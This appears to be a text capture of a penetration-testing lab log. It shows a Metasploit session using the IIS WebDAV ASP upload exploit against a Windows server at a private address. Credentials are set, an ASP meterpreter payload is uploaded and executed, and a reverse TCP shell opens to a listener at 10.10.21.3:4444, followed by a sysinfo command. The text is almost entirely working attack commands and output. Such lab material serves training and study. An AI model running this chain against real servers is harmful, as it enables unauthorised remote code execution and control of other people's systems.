 ```
```

```
msf6 exploit(multi/handler) > use exploit/windows/iis/iis_webdav_upload_asp
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > show options

Module options (exploit/windows/iis/iis_webdav_upload_asp):

   Name          Current Setting        Required  Description
   ----          ---------------        --------  -----------
   HttpPassword                         no        The HTTP password to specify for authentication
   HttpUsername                         no        The HTTP username to specify for authentication
   METHOD        move                   yes       Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
   PATH          /metasploit%RAND%.asp  yes       The path to attempt to upload
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                     yes       The target port (TCP)
   SSL           false                  no        Negotiate SSL/TLS for outgoing connections
   VHOST                                no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.21.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpPassword password_123321
HttpPassword => password_123321
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set PATH /webdav/metasploit%RAND%.asp
PATH => /webdav/metasploit%RAND%.asp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOSTS 10.0.23.9
RHOSTS => 10.0.23.9
msf6 exploit(windows/iis/iis_webdav_upload_asp) > exploit

[*] Started reverse TCP handler on 10.10.21.3:4444 
[*] Checking /webdav/metasploit107509300.asp
[*] Uploading 609508 bytes to /webdav/metasploit107509300.txt...
[*] Moving /webdav/metasploit107509300.txt to /webdav/metasploit107509300.asp...
[*] Executing /webdav/metasploit107509300.asp...
[*] Sending stage (175174 bytes) to 10.0.23.9
[*] Deleting /webdav/metasploit107509300.asp (this doesn't always work)...
[*] Meterpreter session 2 opened (10.10.21.3:4444 -> 10.0.23.9:49805) at 2022-09-11 17:00:46 +0530

meterpreter > sysinfo
Computer        : AD-IIS
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
```